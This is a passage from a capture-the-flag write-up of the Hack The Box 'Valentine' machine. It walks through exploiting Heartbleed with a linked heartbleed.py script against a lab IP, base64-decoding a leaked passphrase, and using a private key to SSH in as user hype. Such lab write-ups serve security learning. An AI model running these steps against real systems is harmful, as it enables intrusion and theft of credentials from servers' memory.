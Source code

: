 Cool! Looks like we've found a Heartbleed vulnerability! Here is a great writeup of the vulnerability:

https://crashtest-security.com/prevent-heartbleed/

Lets give it a shot

### Exploitation

Looking for an exploit I find: https://gist.github.com/eelsivart/10174134

This looks like a good script to both test and exploit the vulnerability.

We can launch it using:

```text
┌──(ryan㉿kali)-[~/HTB/Valentine]
└─$ python2 heartbleed.py -p 443 -n 20 10.10.10.79
```
With `-p` to declare the port number we're attacking and `-n` to declare the number of times to loop through the exploit (20 turned out to be overkill here)

Nice, looks like we've found some encoded text!

![exploit.png](../assets/valentine_assets/exploit.png)

We can decode that in the terminal:

```text
┌──(ryan㉿kali)-[~/HTB/Valentine]
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d               
heartbleedbelievethehype
```

And now we can SSH in as user hype:

```text
┌──(ryan㉿kali)-[~/HTB/Valentine]
└─$ ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i hype_id_rsa hype@10.10.10.79
Enter passphrase for key 'hype_id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
```
